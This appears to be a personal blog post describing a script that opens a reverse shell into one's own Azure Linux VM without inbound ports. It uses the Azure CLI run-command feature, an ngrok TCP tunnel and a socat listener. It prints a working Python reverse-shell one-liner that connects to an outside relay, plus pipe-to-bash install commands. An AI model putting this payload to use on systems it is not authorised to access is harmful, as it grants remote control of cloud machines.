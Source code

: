 ```yaml
---
layout: post
title: "Reverse shell to your Azure VM without inbound access"
date: 2021-02-23
tags: azure linux
favorite: "true"
permalink: reverse-shell-azure
---
```


> **Purpose:** 
> For any Azure Compute Linux VM where you have permission to execute one-off commands via the Azure CLI, 
> issues a reverse shell command to the VM and sends the shell back to you over TCP (via an ngrok tunnel)

There are many practical reasons - whether due to cost constraints or lack of necessity - to not attach a public IP address/allow inbound acccess to an Azure Compute VM.  Nevertheless, once in a while it may be convenient to get a shell on a VM to tweak a setting or debug a problem. One solution would be to simply attach a public IP to the VM. In an ad-hoc situation, the solution I propose below is quick and easy once you have the tools set up. 

This solution aims to **replace** scenarios where you'd want to use the Azure dashboard's [integrated serial console](linux-diagnose-agent.md#azure-console).  To use the serial console, you needed to jump through several hoops and interface with the (buggy and not-too-fun-to-use) web console. This approach uses the Azure CLI's ability to [issue one-off shell commands to the VM](https://docs.microsoft.com/en-us/azure/virtual-machines/linux/run-command).  We are exploiting that feature to create a reverse shell back to our computer through a TCP connection.  We use ngrok to expose a TCP port on our local machine.

> Note that in this post I don't go through the process of setting up an encrypted TCP connection between your machine and the VM.  Following [this post by erev0s](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/#encrypted-reverse-shell) illustrates one such way to encrypt your connection with on an SSL layer.

## How it works

For an Azure VM with OUTBOUND internet access, but with NO INBOUND ports open - the script:

1. Spawns an ngrok TCP relay over local port 56760
2. Spawns a socat tcp listener on port 56760

Essentially: 

```bash
ngrok tcp 56760
socat file:`tty`,raw,echo=0 tcp-listen:56760
```

2. Does some regex magic to find out the random ngrok URL and port

3. Uses the Azure CLI to send a shell command to our VM with [az vm run-command invoke](https://docs.microsoft.com/en-us/cli/azure/vm/run-command?view=azure-cli-latest#az_vm_run_command_invoke).
4. The payload is a standard python reverse shell one-liner that makes a connection back to our listener, and spawning a `pty` with the command `/bin/bash`.

```bash
az vm run-command invoke -g $RESOURCE_GROUP -n $VMID --command-id RunShellScript --scripts "export RHOST=\"$HOST\";export RPORT=$PORT;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(\"RHOST\"),int(os.getenv(\"RPORT\"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")'"
```

### Prereqs

| Prereq.   | MacOS Install          | WSL2 Install                                                           |
|-----------|------------------------|------------------------------------------------------------------------|
| socat     | `brew install socat`     | `sudo apt install socat`                                                 |
| ngrok     | `brew install ngrok`     | `wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip -O ngrok.zip && unzip ngrok  && sudo cp ngrok /usr/local/bin && chown $(whoami) /usr/local/bin/ngrok && chmod +x /usr/local/bin/ngrok` |
| Azure CLI | `brew install azure-cli` | `curl -sL https://aka.ms/InstallAzureCLIDeb \| sudo bash`                |
| jq        | `brew install jq`        | `sudo apt install jq`                                                    |

### Additional Setup

1. Create a free ngrok account and run `ngrok authtoken <YOUR TOKEN>` in order to use their tcp relay.
2. Run `az login` to login to the Azure CLI with your credentials. 

## Usage

To use the script on a *nix system, simply run the bash script with your VM's name, resource group, and subscription.  Note you'll need this VM to be visible to you via the Azure CLI with adequate permissions to queue a `run-command`.

Two terminals will be spawned:
 - The `socat` listener window (listening for the reverse shell connection/where we will interact with our Azure VM). 
 - The `ngrok` window running the TCP tunnel facilitating the connection (you can mostly ignore this window, given you do not see an error).

```
./reverse-shell-azure.sh <VM NAME> [RESOURCE_GROUP] [SUBSCRIPTION]
```

----
<br>

You can clone the entire [**reverse-shell-azure.sh**](https://gist.github.com/joshspicer/b5c66ad239031e3138469c5948c78bae#file-reverse-shell-azure-sh) from this gist.

Make sure to place the following [revshell.ngrok.yml](https://gist.github.com/joshspicer/b5c66ad239031e3138469c5948c78bae#file-revshell-ngrok-yml) next to the script when executing

```yaml
tunnels:
  reverseshell:
    addr: 56760
    proto: tcp
```

<!-- I'd embed this gist, but embedding gists on this blog doesn't look that pretty  -->
<!-- <script src="https://gist.github.com/joshspicer/b5c66ad239031e3138469c5948c78bae.js"></script> -->
